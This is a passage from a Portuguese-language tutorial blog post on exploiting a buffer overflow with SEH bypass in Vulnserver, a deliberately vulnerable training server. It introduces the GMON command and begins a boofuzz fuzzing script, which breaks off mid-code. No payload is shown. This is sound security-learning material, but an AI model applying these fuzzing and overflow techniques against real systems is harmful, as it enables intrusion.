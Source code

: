 ```yaml
---
title: Windows Vulnserver Buffer Overflow - Parte 4 Bypass do SEH
author: Hastur
date: 2021-10-06 15:00:00 -0300
categories: [Estudos, Windows Buffer Overflow]
tags: [Windows, Binary Exploitation, Buffer Overflow, Assembly, Vulnserver]
image: "/img/std/winbof/winbof-logo-4.png"
alt: "Buffer Overflow"
---
```


# COMANDO GMON

O comando GMON, assim como os demais, recebe um argumento e dá uma resposta. Neste comando iremos explorar outa tecnica de exploração de buffer overflow em binários Windows.

![Enumaração do comando.](/img/std/winbof/winbof-45.png)

## FUZZING

Desta vez vamos experimentar outra técnica para o fuzzing, o python tem uma a biblioteca boofuzz que pode ser usada, vamos escrever nosso script.

fuzzing2.py:

```python
#!/usr/bin/python3

from boofuzz import *
import time

def get_banner(target, my_logger, session, *args, **kwargs):
    banner_template = b"Welcome to Vulnerable Server! Enter HELP for help."
    try:
        banner = target.recv(1024)
    except:
        print("Nao foi possivel a conexao.")
        exit(1)

    my_logger.log_check("Recebendo banner...")
    if banner_template in banner:
        my_logger.log_pass("Banner recebido!")
    else:
        my_logger.log_fail("Banner nao recebido")
        print("Banner nao recebido, saindo...")
        exit(1)

def main():
    session = Session(
            sleep_time = 1,
            target = Target(
```
